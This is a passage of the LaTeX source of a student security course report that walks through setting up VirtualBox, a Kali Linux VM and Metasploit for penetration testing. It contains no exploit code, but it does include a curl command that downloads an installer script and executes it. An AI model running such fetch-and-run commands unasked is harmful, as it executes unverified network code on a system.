\documentclass[a4paper, 12pt, titlepage]{report}
\usepackage{minted}
\usepackage[dvipsnames]{xcolor}
\colorlet{LightBlue}{RoyalBlue!20}
\usepackage{graphicx}
\usepackage{fullpage}
\usepackage{float}
\usepackage{amsmath}
\usepackage{booktabs}
\usepackage{multicol}
\usepackage{graphicx}
\usepackage{fullpage}
\usepackage{float}
\usepackage{hyperref}
\usepackage{csquotes}
\usepackage[backend=biber]{biblatex}
\addbibresource{bibfile.bib}
\setlength{\tabcolsep}{18pt}
\renewcommand{\arraystretch}{1.1}
\renewcommand{\chaptername}{Section}
\hypersetup{
    colorlinks=true,
    linkcolor=RoyalBlue,
    filecolor=RoyalBlue,
    urlcolor=RoyalBlue,
    citecolor=RoyalBlue,
}
%\usepackage{fancyvrb}
\begin{document}
\linespread{1.5}
\author{Affaan Muhammad - 33016763\\Joshua Esterhuizen - 30285976}
\title{ITRI625 - Computer Security II\\Metasploit Project Documentation}
\date{Due: October, 19th 2021}
\maketitle
\tableofcontents{}
\chapter{Installation and Setup}
\section{Project files}
The project files can be found on the following GitHub link:\\
\url{https://github.com/AM-ops/MetasploitProject/}
\\\\This was our main code repository. We both have been updating the code as we went along and added details and bug fixes to the project.\\\\
To copy the code to your own machine, follow the following steps:
\begin{enumerate}
\item Make sure Git is installed. If not it can be downloaded from here:\\
\url{https://git-scm.com/}
\item Create an empty directory where the code can be copied to
\item Run the following command:
\begin{minted}
[
frame=lines,
framesep=2mm,
baselinestretch=1.2,
bgcolor=LightBlue,
fontsize=\footnotesize,
]
{Shell}
git clone https://github.com/AM-ops/MetasploitProject.git
\end{minted}
\end{enumerate}
\section{Virtual Environments}
\label{sec:sec2}
There are multiple advantages of using virtual environments when testing for vulnerabilities and exploits in computer security. The primary reason being we create a layer of separation and abstraction between our host machine and our virtual environments. This 'sand-boxing' allows for analysis of threats in a contained environment.
\subsection{VirtualBox}
We made use of Oracle's VirtualBox software for the virtualisation. This can be downloaded from the following link: \url{https://www.virtualbox.org/wiki/Downloads}\\
Below is a screenshot of the site. We also chose the \texttt{Windows hosts} option to download. Other hosts can also be utilised such as Linux hosts, or OS X hosts.
\begin{figure}[H]
    \centering
    
\includegraphics[scale=0.3]{pics/vbmain.PNG}
    \caption{Oracle's VirtualBox Download Page}
\end{figure}
Once the file has been downloaded, open it. Thereafter follow the default prompts of the installation. Below are some figures illustrating this.
\begin{multicols}{2}
\begin{figure}[H]
    \centering
    
\includegraphics[scale=0.5]{pics/vb1.PNG}
    \caption{Screen 1}
\end{figure}
\begin{figure}[H]
    \centering
    
\includegraphics[scale=0.5]{pics/vb2.PNG}
    \caption{Screen 2}
\end{figure}
\end{multicols}
Click on \textbf{Next} for both above screens
\begin{multicols}{2}
\begin{figure}[H]
    \centering
    
\includegraphics[scale=0.5]{pics/vb3.PNG}
    \caption{Screen 3}
\end{figure}
\begin{figure}[H]
    \centering
    
\includegraphics[scale=0.5]{pics/vb4.PNG}
    \caption{Screen 4}
\end{figure}
\end{multicols}
Click on \textbf{Next} for both of the above screens
\begin{multicols}{2}
\begin{figure}[H]
    \centering
    
\includegraphics[scale=0.5]{pics/vb5.PNG}
    \caption{Screen 5}
\end{figure}
\begin{figure}[H]
    \centering
    
\includegraphics[scale=0.5]{pics/vb6.PNG}
    \caption{Screen 6}
\end{figure}
\end{multicols}
Click on \textbf{Next} and then \textbf{Finish}
\section{Kali Linux}
The next step is to acquire an Operating System for carrying out our Penetration Testing. For this purpose we utilised \texttt{Kali Linux}. The main site for this OS is: \url{https://www.kali.org/}\\\\
According to them they quote the following:
\begin{displayquote}
"\textbf{The Most Advanced Penetration Testing Distribution}\\
\textit{Kali Linux is an open-source, Debian-based Linux distribution geared towards various information security tasks, such as Penetration Testing, Security Research, Computer Forensics and Reverse Engineering.}"
\end{displayquote}
\pagebreak
The main site looks as follows
\begin{figure}[H]
    \centering
    
\includegraphics[scale=0.5]{pics/kali.PNG}
    \caption{Kali Linux's Homepage}
\end{figure}
Click on the \texttt{Download} button to see the different options available. Below the options are shown.
\begin{figure}[H]
    \centering
    
\includegraphics[scale=0.5]{pics/kalidown.PNG}
    \caption{Kali Linux's different download options}
\end{figure}
The option we chose is the \texttt{Virtual Machines} one. Thereafter you are presented with the two options available.
\begin{figure}[H]
    \centering
    
\includegraphics[scale=0.5]{pics/kalivb.PNG}
    \caption{The 2 options for Virtual Machines}
\end{figure}
Select the \texttt{VirtualBox} option and click on the direct download link.\\\\
After the download is completed it is time to set up Kali Linux inside VirtualBox. To achieve this open up the file and thereafter change the following settings.
\begin{figure}[H]
    \centering
    
\includegraphics[scale=0.5]{pics/vbkali1.PNG}
    \caption{The main screen once the file is opened}
\end{figure}
Click on \textbf{Import} thereafter click on \textbf{Agree} on the Software Licence Agreement screen. The Kali Linux virtual machine will begin installing. Wait for it to be completed. Depending on the hardware available, it will be done in a few minutes.
\begin{figure}[H]
    \centering
    
\includegraphics[scale=0.5]{pics/vbkali2.PNG}
    \caption{Software Licence Agreement screen}
\end{figure}
Once the installation is completed Oracle's VirtualBox will open to the following main screen. The newly installed Kali Linux is shown on the left of the main screen.
\begin{figure}[H]
    \centering
    
\includegraphics[scale=0.5]{pics/vbkalimain.PNG}
    \caption{VirtualBox's main screen}
\end{figure}
Before starting up the Kali Linux virtual machine, a few settings have to be changed. Click on the \textbf{Settings} icon which is shown by a yellow gear icon. Navigate to \textbf{Systems} setting, and thereafter assign the recommended amount of \texttt{Base memory} under the \texttt{Motherboard} tab.
\begin{figure}[H]
    \centering
    
\includegraphics[scale=0.5]{pics/settings1.PNG}
    \caption{Systems settings: Motherboard tab}
\end{figure}
Under the \texttt{Processor} tab assign the recommended amount of \texttt{Processor(s)} as well as check the \texttt{Enable Nested VT-x/AMD-V} option.
\begin{figure}[H]
    \centering
    
\includegraphics[scale=0.5]{pics/settings2.PNG}
    \caption{Systems settings: Processor tab}
\end{figure}
If any errors are shown in the Settings for USB, then under the \texttt{USB} settings make sure that the \texttt{USB 1.1 (OHCI) Controller} option is only selected.
\begin{figure}[H]
    \centering
    
\includegraphics[scale=0.5]{pics/settings3.PNG}
    \caption{USB settings}
\end{figure}
Click \textbf{OK} to save all your settings changes. You should now be able to start up the Kali Linux virtual machine. Click on the \texttt{Start} icon which is shown by a green arrow. Once the virtual machine starts up you will be taken to the login screen. enter the following for the username and password:
\begin{itemize}
    \item Username: \texttt{kali}
    \item Password: \texttt{kali}
\end{itemize}
\begin{figure}[H]
    \centering
    
\includegraphics[scale=0.5]{pics/kalimain.PNG}
    \caption{Kali Linux login screen}
\end{figure}
Once you are successful in logging in, you will be greeted by the following splash screen of the Desktop.
\begin{figure}[H]
    \centering
    
\includegraphics[scale=0.5]{pics/kalihome.PNG}
    \caption{Kali Linux's Desktop}
\end{figure}
\section{Metasploit on Kali Linux}
\subsection{Installation for the command line}
By default Kali Linux comes with Metasploit out-of-the-box. However, to install Metasploit on a Linux operating system the following has to be done.
Go to the following GitHub url:\\ \url{https://github.com/rapid7/metasploit-framework/wiki/Nightly-Installers}\\
Copy the following command: 
\begin{minted}
[
frame=lines,
framesep=2mm,
baselinestretch=1.2,
bgcolor=LightBlue,
fontsize=\footnotesize,
breaklines,
breaksymbolleft=\carriagereturn
]
{Shell}
curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/
templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall && \
  chmod 755 msfinstall && \
  ./msfinstall
\end{minted}
Open up the terminal and paste the command copied. Thereafter press \textbf{Enter} to run it. If a password is required, Enter: \texttt{kali}\\\\
Once the package has been installed you will see the screen as shown in Figure~\ref{fig:fig11}
\begin{figure}[H]
    \centering
